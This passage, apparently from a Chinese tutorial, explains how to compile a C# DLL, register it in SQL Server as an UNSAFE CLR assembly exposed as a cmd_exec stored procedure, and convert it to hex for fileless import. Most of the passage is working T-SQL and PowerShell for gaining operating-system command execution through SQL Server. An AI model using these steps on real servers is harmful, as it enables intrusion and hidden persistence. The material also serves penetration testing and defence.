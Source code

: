     
        

现在我们使用csc.exe将“c:tempcmd\_exec.cs”编译成dll。在默认情况下即使你没有安装Visual Studio,csc.exe编译器是附带.NET框架的，我们使用下面的PowerShell命令来找到它。

    Get-ChildItem -Recurse "C:WindowsMicrosoft.NET" -Filter "csc.exe" | Sort-Object fullname -Descending | Select-Object fullname -First 1 -ExpandProperty fullname
    
        

如果你找到了csc.exe，你可以使用下面的命令将“c:tempcmd\_exec.cs”编译成dll文件。

    C:WindowsMicrosoft.NETFramework64v4.0.30319csc.exe /target:library c:tempcmd_exec.cs
    
        

**如何导入我的CLR DLL到SQL Server？**

要将dll导入SqlServer，需要SQL登录的权限为sysadmin，有CREATE ASSEMBLY权限或ALTER ASSEMBLY权限。然后按照以下步骤注册dll并且将其链接到存储过程，以便使用TSQL执行cmd\_exec方法。

以sysadmin身份登录到SqlServer，并用下面TSQL查询：

    
```
-- Select the msdb database
    use msdb
    -- Enable show advanced options on the server
    sp_configure 'show advanced options',1
    RECONFIGURE
    GO
    -- Enable clr on the server
    sp_configure 'clr enabled',1
    RECONFIGURE
    GO
    -- Import the assembly
    CREATE ASSEMBLY my_assembly
    FROM 'c:tempcmd_exec.dll'
    WITH PERMISSION_SET = UNSAFE;
    -- Link the assembly to a stored procedure
    CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
    GO
    
```

        

现在，你应该可以通过“msdb”数据库中的“cmd\_exec”存储过程执行系统命令了，如下面的示例所示。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221056685.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
完成后你可以使用下面的sql语句删掉该过程和程序集

**如何将我的CLR DLL转换成一个十六进制字符串并在没有文件的情况下导入它?**

CLR程序集导入SQLServer时不必一定要引用一个dll文件，“CREATE ASSEMBLY”也接受一个十六进制的字符串表示CLR DLL文件。下面是一个PowerShell脚本示例，演示了如何将你的“cmd\_exec.dll”文件转换到sql命令中，它可以用来创建没有物理文件引用的程序集。

 
```
 Target file
    $assemblyFile = "c:tempcmd_exec.dll"
  Build top of TSQL CREATE ASSEMBLY statement
    $stringBuilder = New-Object -Type System.Text.StringBuilder 
    $stringBuilder.Append("CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM `n0x") | Out-Null
      Read bytes from file
    $fileStream = [IO.File]::OpenRead($assemblyFile)
    while (($byte = $fileStream.ReadByte()) -gt -1) {
        $stringBuilder.Append($byte.ToString("X2")) | Out-Null
    }
    # Build bottom of TSQL CREATE ASSEMBLY statement
    $stringBuilder.AppendLine("`nWITH PERMISSION_SET = UNSAFE") | Out-Null
    $stringBuilder.AppendLine("GO") | Out-Null
```